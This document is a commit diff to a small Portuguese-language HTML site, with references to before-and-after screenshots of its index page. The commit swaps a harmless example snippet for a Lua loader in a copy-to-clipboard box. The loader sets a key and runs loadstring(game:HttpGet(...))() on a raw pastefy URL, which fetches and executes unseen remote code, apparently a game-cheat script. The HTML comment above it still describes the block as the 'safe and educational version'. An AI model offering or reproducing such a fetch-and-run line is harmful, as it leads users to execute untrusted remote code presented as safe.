

Before and after one commit to brenoca111/meu-site-moreira, a plain HTML site: page index.html in a window 1280 px wide. Both pictures are taken after a click on the button "Script Moreira". Shown: the part 266-704 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -32,9 +32,8 @@
             <p class="text-yellow-800 font-semibold mb-2">Canal de Acesso:</p>
             <!-- Este texto é a versão segura e educativa. -->
             <pre class="bg-yellow-200 p-3 rounded-md overflow-x-auto text-sm text-yellow-900">
--- Código Seguro e de Exemplo
-print("Bem-vindo ao conteúdo do Moreira!")
--- Para acessar seu conteúdo, use o link oficial do seu canal.
+_G.AUTOMOREIRA_KEY = "LUMA-G0O1-3ZNJ-ZLA2"
+loadstring(game:HttpGet("https://pastefy.app/6Ae8CtYS/raw"))()
             </pre>
             <button id="copiar-btn" class="mt-3 w-full bg-yellow-600 hover:bg-yellow-700 text-white font-bold py-2 px-4 rounded-lg transition duration-150 ease-in-out shadow-md">
                 Copiar Texto de Exemplo
```
